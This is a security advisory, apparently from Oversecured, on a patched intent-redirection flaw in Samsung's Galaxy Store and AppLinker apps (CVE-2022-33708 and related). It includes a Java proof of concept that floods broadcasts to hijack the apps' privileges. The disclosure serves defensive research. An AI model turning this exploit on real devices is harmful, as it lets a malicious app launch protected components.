


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Galaxy Store, AppLinker</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.samsungapps</code>, <code>com.sec.android.app.applinker</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.02.13</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.07.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>High</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33708">CVE-2022-33708</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33709">CVE-2022-33709</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33710">CVE-2022-33710</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-30754">CVE-2022-30754</a> (SVE-2022-0352, SVE-2022-1578)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$7230</td>
    </tr>
</table>

# Description

Oversecured detected the same type of vulnerability related to insecure intent redirection in Galaxy Store and AppLinker apps.

Galaxy Store app:


AppLinker app:


This vulnerability is caused by unprotected registration of the receiver, which can be sent by any third-party app installed on the same device. During broadcast processing, the app receives the embedded intent from the `android.intent.extra.INTENT` parameter and passes it to `Context.startActivity()`, which leads to launching arbitrary activities with the permissions of the vulnerable app.

These receivers are not always available, but only during app updates and installs, so the attacking app must constantly send broadcasts with the hope of guessing the moment.

**Proof of Concept**
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    new Thread(() -> {
        Intent broadcastIntent = new Intent("install_complete");
        broadcastIntent.putExtra("android.content.pm.extra.STATUS", -1);
        broadcastIntent.putExtra("android.intent.extra.INTENT", new Intent(Intent.ACTION_VIEW, Uri.parse("https://google.com/")));
        while (true) {
            getInstalledApps().forEach(app -> {
                broadcastIntent.putExtra("android.content.pm.extra.PACKAGE_NAME", app);
                sendBroadcast(broadcastIntent);
            });

            try {
                Thread.sleep(1000);
            } catch (Throwable th) {
                throw new RuntimeException(th);
            }
        }
    }).start();
}

private List<String> getInstalledApps() {
    try {
        return getPackageManager()
                .getInstalledApplications(0)
                .stream()
                .map(app -> app.packageName)
                .collect(Collectors.toList());
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

## References

- [Oversecured Blog. Android: Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)
